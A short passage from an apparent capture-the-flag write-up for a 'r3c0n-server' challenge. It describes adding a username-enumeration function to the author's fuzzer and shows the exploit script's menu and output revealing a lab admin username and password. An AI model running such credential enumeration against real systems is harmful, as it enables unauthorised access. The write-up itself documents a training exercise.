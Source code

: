   <img src="screenshots/r3c0n-server-12.png" style="width:90%; border:0.5px solid black">
</p>

Since we have the ability to enumerate the names, it is time to include yet another function to my [fuzzer](#enum-script) (look at the `fuzz_user()` function), which will do this enumeration for us:

```bash
$ python r3c0n-server-exploit.py
What to fuzz?
Options [1] and [2] require a valid wordlist as an argument!

[1] API
[2] API Parameters
[3] Username & Password
3

[+] Discovered username:
GRINCHADMIN
[+] Discovered password:
S4NT4SUCKS
```
